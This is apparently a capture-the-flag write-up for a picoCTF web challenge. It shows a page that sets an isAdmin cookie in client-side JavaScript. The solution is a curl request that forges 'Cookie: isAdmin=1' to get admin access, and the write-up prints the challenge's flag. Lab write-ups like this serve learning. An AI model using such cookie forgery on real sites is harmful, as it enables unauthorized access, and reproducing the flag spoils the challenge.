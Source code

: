 ## Description
Can you get the flag? Go to this website and see what you can discover.

## Solution

Viewing source code:
```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Secure Log In</title>
  </head>
  <body>
    <script src="guest.js"></script>

    <h1>Online Gradebook</h1>
    <button type="button" onclick="continueAsGuest();">Continue as guest</button>
  </body>
</html>
```

and `guest.js` is:
```javascript
function continueAsGuest()
{
  window.location.href = '/check.php';
  document.cookie = "isAdmin=0";
}
```

changing header cookie and get the flag:
```bash
curl "http://saturn.picoctf.net:57741/check.php" --header "Cookie: isAdmin=1"




<html>
<body>



<p>picoCTF{gr4d3_A_c00k13_5d2505be}</p>


</body>
</html>
```
